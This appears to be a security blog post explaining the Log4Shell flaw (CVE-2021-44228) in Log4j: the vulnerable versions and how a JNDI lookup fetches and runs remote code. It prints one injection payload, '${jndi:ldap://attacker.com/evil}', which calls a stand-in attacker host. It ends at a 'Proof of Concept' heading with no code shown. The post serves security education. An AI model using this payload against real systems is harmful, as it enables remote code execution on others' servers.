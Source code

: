 ```yaml
---
layout: post
title: "Deep Dive: Understanding Log4Shell (CVE-2021-44228)"
categories: [Vulnerability Analysis, CVE]
tags: [log4j, java, rce, jndi, ldap]
---
```


Even though Log4Shell was discovered in late 2021, it remains one of the most critical vulnerabilities in recent history and continues to be exploited in the wild. Understanding how it works is essential for any security professional. Let's break down the technical details and exploitation methodology.

## What is Log4Shell?

**CVE-2021-44228**, known as Log4Shell, is a remote code execution (RCE) vulnerability in Log4j, a popular Java logging library used by countless applications and services worldwide. The vulnerability has a CVSS score of **10.0** - the highest possible severity rating.

## The Vulnerability Explained

### What Makes It So Dangerous?

Log4Shell exploits a feature in Log4j called "JNDI Lookup" that allows Log4j to perform lookups via Java Naming and Directory Interface (JNDI). When Log4j processes a specially crafted string, it performs a JNDI lookup that can load and execute remote code.

### Technical Breakdown

The vulnerability exists in versions of Log4j from 2.0-beta9 to 2.14.1. Here's how it works:

**Step 1: Injection**
An attacker injects a malicious string into any field that gets logged:
```
${jndi:ldap://attacker.com/evil}
```

**Step 2: Lookup**
Log4j's lookup feature interprets this string and attempts to connect to the attacker's LDAP server.

**Step 3: Code Retrieval**
The LDAP server responds with a reference to a malicious Java class hosted on the attacker's server.

**Step 4: Execution**
The application downloads and executes the malicious class, giving the attacker RCE.

## Proof of Concept

**DISCLAIMER**: This PoC is for educational purposes only. Only test on systems you own or have explicit permission to test.
